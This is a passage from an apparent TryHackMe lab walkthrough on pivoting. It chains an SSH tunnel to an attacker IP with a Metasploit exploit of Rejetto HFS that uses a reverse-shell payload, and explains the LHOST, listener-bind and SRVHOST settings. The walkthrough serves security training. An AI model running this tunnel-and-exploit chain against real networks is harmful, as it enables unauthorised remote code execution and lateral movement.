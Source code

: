 Putting the whole command together, we would end up with the following:

THMJMP2: Command Prompt

```shell-session
C:\> ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7878:127.0.0.1:7878 -N
```

**Note:** If you are using the AttackBox and have joined other network rooms before, be sure to select the IP address assigned to the tunnel interface facing the `lateralmovementandpivoting` network as your ATTACKER_IP, or else your reverse shells/connections won't work properly. For your convenience, the interface attached to this network is called `lateralmovement`, so you should be able to get the right IP address by running `ip add show lateralmovement`:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/b6b6f6f3ef517c092e52c4bca4941129.png)  

Once all port forwards are in place, we can start Metasploit and configure the exploit so that the required ports match the ones we have forwarded through THMJMP2:

AttackBox

```shell-session
user@AttackBox$ msfconsole
msf6 > use rejetto_hfs_exec
msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/shell_reverse_tcp

msf6 exploit(windows/http/rejetto_hfs_exec) > set lhost thmjmp2.za.tryhackme.com
msf6 exploit(windows/http/rejetto_hfs_exec) > set ReverseListenerBindAddress 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set lport 7878 
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvhost 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set srvport 6666

msf6 exploit(windows/http/rejetto_hfs_exec) > set rhosts 127.0.0.1
msf6 exploit(windows/http/rejetto_hfs_exec) > set rport 8888
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
```

There is a lot to unpack here:

- The **LHOST** parameter usually serves two purposes: it is used as the IP where a listener is bound on the attacker's machine to receive a reverse shell; it is also embedded on the payload so that the victim knows where to connect back when the exploit is triggered. In our specific scenario, since THMDC won't be able to reach us, we need to force the payload to connect back to THMJMP2, but we need the listener to bind to the attacker's machine on `127.0.0.1`. To this end, Metasploit provides an optional parameter `ReverseListenerBindAddress`, which can be used to specify the listener's bind address on the attacker's machine separately from the address where the payload will connect back. In our example, we want the reverse shell listener to be bound to 127.0.0.1 on the attacker's machine and the payload to connect back to THMJMP2 (as it will be forwarded to the attacker machine through the SSH tunnel).
- Our exploit must also run a web server to host and send the final payload back to the victim server. We use **SRVHOST** to indicate the listening address, which in this case is 127.0.0.1, so that the attacker machine binds the webserver to localhost. While this might be counterintuitive, as no external host would be able to point to the attacker's machine localhost, the SSH tunnel will take care of forwarding any connection received on THMJMP2 at SRVPORT back to the attacker's machine.  
    